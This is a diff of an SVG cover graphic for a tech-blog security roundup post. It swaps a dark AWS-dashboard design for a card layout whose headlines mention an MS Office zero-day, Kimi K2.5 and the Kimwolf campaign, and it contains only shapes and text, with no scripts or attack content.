-   <rect x="842" y="106" width="270" height="42" rx="8" fill="#1a2d45" />
-   <rect x="842" y="126" width="270" height="22" fill="#1a2d45" />
-   <text x="862" y="130" font-family="Arial" font-size="14" font-weight="bold" fill="#f97316">aws</text>
-   <text x="900" y="130" font-family="'Segoe UI',Arial,sans-serif" font-size="12" fill="#93c5fd">G7e Instances</text>
-   <text x="900" y="144" font-family="monospace" font-size="10" fill="#64748b">us-east-1 | Seoul</text>
-   <rect x="862" y="158" width="230" height="212" rx="5" fill="#080e18" stroke="#1e3a5f" stroke-width="1" />
-   <rect x="870" y="166" width="214" height="22" rx="3" fill="#0f1e2e" stroke="#1e3a5f" stroke-width="0.5" />
-   <circle cx="884" cy="177" r="4" fill="#10b981" filter="url(#glow3)" />
-   <text x="894" y="181" font-family="monospace" font-size="10" fill="#34d399">g7e.48xlarge  [RUNNING]</text>
-   <rect x="870" y="194" width="214" height="22" rx="3" fill="#0f1e2e" stroke="#1e3a5f" stroke-width="0.5" />
-   <circle cx="884" cy="205" r="4" fill="#10b981" filter="url(#glow3)" />
-   <text x="894" y="209" font-family="monospace" font-size="10" fill="#34d399">g7e.24xlarge  [RUNNING]</text>
-   <rect x="870" y="222" width="214" height="22" rx="3" fill="#0f1e2e" stroke="#3b82f6" stroke-width="0.5" />
-   <circle cx="884" cy="233" r="4" fill="#3b82f6" filter="url(#glow3)" />
-   <text x="894" y="237" font-family="monospace" font-size="10" fill="#60a5fa">WAF / Shield   [ACTIVE]</text>
-   <rect x="870" y="250" width="214" height="22" rx="3" fill="#0f1e2e" stroke="#3b82f6" stroke-width="0.5" />
-   <circle cx="884" cy="261" r="4" fill="#3b82f6" />
-   <text x="894" y="265" font-family="monospace" font-size="10" fill="#60a5fa">GuardDuty      [ARMED]</text>
-   <rect x="870" y="278" width="214" height="22" rx="3" fill="#0f1e2e" stroke="#f59e0b" stroke-width="0.5" />
-   <circle cx="884" cy="289" r="4" fill="#f59e0b" />
-   <text x="894" y="293" font-family="monospace" font-size="10" fill="#fbbf24">Threat Intel   [ALERT]</text>
-   <rect x="870" y="306" width="214" height="22" rx="3" fill="#0f1e2e" stroke="#1e3a5f" stroke-width="0.5" />
-   <circle cx="884" cy="317" r="4" fill="#10b981" />
-   <text x="894" y="321" font-family="monospace" font-size="10" fill="#34d399">CloudTrail     [LOGGING]</text>
-   <rect x="870" y="334" width="214" height="22" rx="3" fill="#0f1e2e" stroke="#1e3a5f" stroke-width="0.5" />
-   <circle cx="884" cy="345" r="4" fill="#10b981" />
-   <text x="894" y="349" font-family="monospace" font-size="10" fill="#34d399">Security Hub   [OK]</text>
-   <text x="977" y="400" font-family="Arial" font-size="28" fill="#3b82f6" text-anchor="middle" opacity="0.8">☁</text>
-   <text x="977" y="426" font-family="monospace" font-size="10" fill="#64748b" text-anchor="middle">ap-northeast-2</text>
-   <text x="977" y="452" font-family="'Segoe UI',Arial,sans-serif" font-size="14" font-weight="bold" fill="#60a5fa" text-anchor="middle">AWS Cloud</text>
-   <text x="977" y="468" font-family="'Segoe UI',Arial,sans-serif" font-size="11" fill="#64748b" text-anchor="middle">Defense Layer</text>
-   <text x="600" y="558" font-family="'Segoe UI',Arial,sans-serif" font-size="36" font-weight="bold" fill="white" text-anchor="middle" filter="url(#textGlow)">Office Zero-Day + APT</text>
-   <text x="600" y="582" font-family="'Segoe UI',Arial,sans-serif" font-size="16" fill="#94a3b8" text-anchor="middle">MS Office Exploit | Kimi K25 AI | Kimwolf Campaign | AWS G7e</text>
-   <line x1="40" y1="585" x2="1160" y2="585" stroke="#1a0808" stroke-width="1" />
-   <text x="40" y="610" font-family="'Segoe UI',Arial,sans-serif" font-size="13" fill="#64748b">22 News | 6 Security | 4 AI/ML | 3 Cloud | 3 DevOps</text>
-   <text x="1160" y="610" font-family="'Segoe UI',Arial,sans-serif" font-size="13" fill="#64748b" text-anchor="end">tech.2twodragon.com</text>
+   <rect width="1200" height="630" fill="url(#bgGradient)" />
+   <pattern id="grid" width="60" height="60" patternUnits="userSpaceOnUse">
+     <path d="M 60 0 L 0 0 0 60" fill="none" stroke="#ef4444" stroke-opacity="0.05" stroke-width="1" />
+   </pattern>
+   <rect width="1200" height="630" fill="url(#grid)" />
+   <circle cx="0" cy="0" r="300" fill="#ef4444" fill-opacity="0.03" />
+   <circle cx="1200" cy="630" r="350" fill="#dc2626" fill-opacity="0.04" />
+   <circle cx="600" cy="315" r="400" fill="#dc2626" fill-opacity="0.02" />
+   <line x1="0" y1="200" x2="150" y2="200" stroke="#ef4444" stroke-width="1" opacity="0.3" />
+   <line x1="1050" y1="430" x2="1200" y2="430" stroke="#ef4444" stroke-width="1" opacity="0.3" />
+   <rect x="0" y="0" width="1200" height="6" fill="url(#accentGradient)" />
+   <g filter="url(#shadow)">
+     <rect x="40" y="25" width="160" height="40" rx="20" fill="url(#securityGradient)" />
+     <text x="120" y="51" font-family="Arial, sans-serif" font-size="14" font-weight="bold" fill="white" text-anchor="middle">SECURITY</text>
+   </g>
+   <g filter="url(#shadow)">
+     <rect x="1000" y="25" width="160" height="40" rx="20" fill="url(#accentGradient)" />
+     <text x="1080" y="51" font-family="Arial, sans-serif" font-size="13" font-weight="bold" fill="white" text-anchor="middle">March 15, 2026</text>
+   </g>
+   <text x="600" y="110" font-family="Arial, sans-serif" font-size="36" font-weight="bold" fill="#0f172a" text-anchor="middle">: MS Office Zero-Day , Kimi K2.5 , Kimwolf</text>
+   <rect x="400" y="135" width="400" height="4" rx="2" fill="url(#accentGradient)" />
+   <g opacity="0.95">
+     <g transform="translate(80, 280)">
+       <path d="M50 10 L90 30 L90 70 Q90 100 50 120 Q10 100 10 70 L10 30 Z" fill="url(#securityGradient)" stroke="#ef4444" stroke-width="2" opacity="0.9" />
+       <path d="M35 60 L45 75 L70 45" fill="none" stroke="white" stroke-width="4" stroke-linecap="round" stroke-linejoin="round" />
+     </g>
+     <g transform="translate(200, 300)">
+       <rect x="15" y="35" width="50" height="40" rx="5" fill="#dc2626" opacity="0.8" />
+       <path d="M25 35 L25 25 Q25 10 40 10 Q55 10 55 25 L55 35" fill="none" stroke="#dc2626" stroke-width="4" />
+       <circle cx="40" cy="55" r="6" fill="white" />
+     </g>
+     <g transform="translate(320, 290)">
+       <path d="M40 15 L75 75 L5 75 Z" fill="#f59e0b" stroke="#d97706" stroke-width="2" />
+       <text x="40" y="60" font-family="Arial, sans-serif" font-size="28" font-weight="bold" fill="white" text-anchor="middle">!</text>
+     </g>
+   </g>
+   <g transform="translate(450, 180)" filter="url(#shadow)">
+     <rect width="720" height="340" rx="16" fill="url(#cardGradient)" stroke="#ef4444" stroke-width="1" stroke-opacity="0.3" />
+     <rect x="0" y="0" width="720" height="8" rx="4" fill="url(#securityGradient)" />
+     <text x="30" y="50" font-family="Arial, sans-serif" font-size="20" font-weight="bold" fill="#0f172a">Architecture Snapshot</text>
+     <g transform="translate(30, 90)">
+       <circle cx="8" cy="8" r="4" fill="#ef4444" />
+       <text x="25" y="13" font-family="Arial, sans-serif" font-size="13" fill="#334155">MS Office Zero-Day , Kimi K2.5</text>
+     </g>
+     <g transform="translate(30, 125)">
+       <circle cx="8" cy="8" r="4" fill="#ef4444" />
+       <text x="25" y="13" font-family="Arial, sans-serif" font-size="13" fill="#334155">, Kimwolf 200 IoT , AWS Blackwell</text>
+     </g>
+     <g transform="translate(30, 230)">
+       <rect x="0" y="0" width="159" height="30" rx="15" fill="#ef4444" fill-opacity="0.15" stroke="#ef4444" stroke-width="1" stroke-opacity="0.4" />
+       <text x="79" y="20" font-family="Arial, sans-serif" font-size="12" fill="#ef4444" text-anchor="middle">#Security-We...</text>
+       <rect x="171" y="0" width="105" height="30" rx="15" fill="#ef4444" fill-opacity="0.15" stroke="#ef4444" stroke-width="1" stroke-opacity="0.4" />
+       <text x="223" y="20" font-family="Arial, sans-serif" font-size="12" fill="#ef4444" text-anchor="middle">#Zero-Day</text>
+       <rect x="288" y="0" width="159" height="30" rx="15" fill="#ef4444" fill-opacity="0.15" stroke="#ef4444" stroke-width="1" stroke-opacity="0.4" />
+       <text x="367" y="20" font-family="Arial, sans-serif" font-size="12" fill="#ef4444" text-anchor="middle">#Microsoft-O...</text>
+     </g>
+     <g transform="translate(540, 280)">
+       <rect width="150" height="45" rx="22" fill="url(#accentGradient)" filter="url(#glow)" />
+       <text x="75" y="29" font-family="Arial, sans-serif" font-size="14" font-weight="bold" fill="white" text-anchor="middle">View Post</text>
+     </g>
+   </g>
+   <line x1="40" y1="560" x2="1160" y2="560" stroke="#334155" stroke-width="1" />
+   <g transform="translate(50, 575)">
+     <rect width="45" height="45" rx="10" fill="url(#securityGradient)" filter="url(#shadow)" />
+     <text x="22" y="32" font-family="Arial, sans-serif" font-size="20" font-weight="bold" fill="white" text-anchor="middle">TD</text>
+   </g>
+   <text x="110" y="595" font-family="Arial, sans-serif" font-size="18" font-weight="bold" fill="#0f172a">Twodragon Tech Blog</text>
+   <text x="110" y="615" font-family="Arial, sans-serif" font-size="12" fill="#64748b">tech.2twodragon.com</text>
+   <text x="1150" y="595" font-family="Arial, sans-serif" font-size="12" fill="#64748b" text-anchor="end">DevSecOps | Cloud | Security | AI</text>
+   <text x="1150" y="615" font-family="Arial, sans-serif" font-size="11" fill="#64748b" text-anchor="end">Draw.io Style Diagram</text>
</svg>
